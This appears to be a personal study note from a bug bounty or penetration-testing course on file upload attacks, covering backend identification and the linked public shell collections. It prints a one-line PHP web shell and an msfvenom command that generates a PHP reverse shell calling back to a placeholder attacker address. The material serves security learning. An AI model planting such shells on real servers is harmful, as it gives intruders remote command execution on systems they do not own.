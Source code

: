 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounty-hunter/file-upload-attacks/"}
---
```


# Intro to File Upload Attacks

File uploads allow social media users (etc.) to store their images and files corporate websites but also present a serious potential atack vector.

## Types of File upload Attacks

The most basic vulnerability is when the server allows file upload without any kind of validation filters.

If there is no validation and no protection it's easy toupload a Web Shell Script or a Reverse Shell script.

## Identifying the Web Framework

To upload a malicious script, we must first identify the backend technology running the server.

Often this can be done by looking at the extension on the /index.ext page.

We may need to fuzz it if the index is hidden.  We can use **Burp Intruder** for fuzzing or **Wappalyzer** browser extension.

## Upload Exploitation

### Web Shells

There are multiple webshells provided by [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) and there is also [phpbash](https://github.com/Arrexel/phpbash)

Custom web shell:
```php
<?php system($_REQUEST['cmd']); ?>
```

Web shells can exist for any web framework, the difference is the command.

### Reverse Shell

[Pentestmonkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell)

### Generating Custom Reverse Shell Scripts

msfvenom can generate many reverse shell scripts in many languages.

```shell-session
User@Comp $ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```
